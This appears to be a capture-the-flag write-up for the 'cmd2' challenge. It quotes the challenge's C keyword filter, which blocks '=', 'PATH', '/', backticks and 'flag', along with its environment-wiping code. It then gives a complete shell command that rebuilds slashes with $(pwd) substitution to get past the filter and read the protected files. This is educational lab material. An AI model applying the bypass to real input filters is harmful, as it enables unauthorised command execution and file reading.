 ## cmd2
Oh, this level has a better filter than the last one, will it be enough to stop us?

## Solution
There are two things we should take note on this level
```c
int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}
```
First, the filter now is stronger, we can't even use /.
```c
extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}
```
Second, we can't really use any environment variable in our favour... all we have is PATH and we can't use it, because of the filter
```c
putenv("PATH=/no_command_execution_until_you_become_a_hacker");
```
So, it's time for some built-ins, we can't use PATH but you know what we **can** use?
```sh
pwd
```
We can't type "/", but if we happen to execute pwd on "/" guess what we get? Exactly. So, we just have to be creative with our shell substitution, using the exact same solution we got on the previous level should be enough
```shell
cd / 
$HOME/cmd2 "\$(pwd)usr\$(pwd)bin\$(pwd)cat \$(pwd)home\$(pwd)cmd2\$(pwd)*"
```
Success!
